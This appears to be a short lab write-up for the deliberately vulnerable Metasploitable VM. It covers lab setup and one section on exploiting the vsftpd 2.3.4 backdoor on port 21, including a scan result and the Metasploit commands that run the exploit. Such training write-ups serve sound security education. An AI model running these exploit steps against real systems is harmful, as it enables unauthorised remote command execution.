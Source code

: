 # Metasploitable-Writeup

## 📌 What is Metasploitable ? 

Metasploitable is an intentionally vulnerable Linux virtual machine that can be used to conduct security training, test security tools, and practice common penetration testing techniques. The VM will run on any recent VMware products and other visualization technologies such as VirtualBox.

## ⚙️ Prepare our pen-lab.

We will need : 
- VMware , VitrualBox or any other visualization product.
- installed a Linux Machine ( ideally [Kali Linux](https://www.kali.org/) or [Parrot Os](https://www.parrotsec.org/) )
- Installed [Metasploitable Machine](https://sourceforge.net/projects/metasploitable/)

> P.s. The Linux and Metasploitable machines should be in the same network group




## ⚈ FTP ( port : 21 ) Exploit

In our scan result we can see : <br/>
> 21/tcp   open  ftp         vsftpd 2.3.4<br/>
> ftp-anon: Anonymous FTP login allowed (FTP code 230)


**FTP Service (port:21) Exploit :**

- We will use the exploit [VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/).

1. use exploit/unix/ftp/vsftpd_234_backdoor
2. show options
3. set RHOSTS metasploit_ip
4. exploit
